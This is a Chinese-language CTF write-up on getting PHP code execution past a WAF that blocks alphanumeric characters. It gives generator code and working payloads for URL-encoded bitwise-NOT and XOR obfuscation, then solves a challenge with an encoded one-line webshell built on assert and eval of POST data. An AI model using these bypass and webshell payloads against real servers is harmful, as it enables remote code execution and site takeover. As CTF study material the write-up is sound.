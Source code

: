 <https://www.cnblogs.com/Dreamerwd/p/15421284.html>

对于字符，字母，数字大小写都waf的，使用不可打印字符绕过。

## **url编码取反**
们将php代码url编码后取反，我们传入参数后服务端进行url解码，这时由于有取反，url解码成不可打印字符，这样我们就会绕过。
```
<?php 
$s = 'phpinfo'; 
echo urlencode(~$s); 
?>

url:
%70%68%70%69%6e%66%6f
~:
%8F%97%8F%96%91%99%90
url解码后会变成不可打印字符乱码

?code=(~%8F%97%8F%96%91%99%90)();
?code=phpinfo();
```

## **异或绕过**
<https://blog.csdn.net/soldi_er/article/details/120052124>
<https://blog.csdn.net/weixin_40871137/article/details/107591065>
<https://blog.csdn.net/mochu7777777/article/details/104631142>
将两个字符的asci转化为二进制进行异或取值从而得到新的二进制转化为新的字符
```
phpinfo
使用异或工具
"%80%80%80%80%80%80%80"^"%f0%e8%f0%e9%ee%e6%ef"

?code=(%22%80%80%80%80%80%80%80%22^%22%f0%e8%f0%e9%ee%e6%ef%22)();
?code=phpinfo();
```

## **CTF题**
```
$code=$_GET['code'];
        if(strlen($code)>40){
                            die("This is too Long.");
                                    }
        if(preg_match("/[A-Za-z0-9]+/",$code)){
                            die("NO.");
                                    }
        @eval($code);
```
传入一句话木马
```
<?php 
error_reporting(0);
echo "外：";
$a='assert';
$b=urlencode(~$a);
echo $b;

echo "里：";
$c='(eval($_POST[test]))';
$d=urlencode(~$c);
echo $d;
 ?>
```
```
外：%9E%8C%8C%9A%8D%8B里：%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%8B%9A%8C%8B%A2%D6%D6

?code=assert(eval($_POST[test]));

?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%8B%9A%8C%8B%A2%D6%D6);
```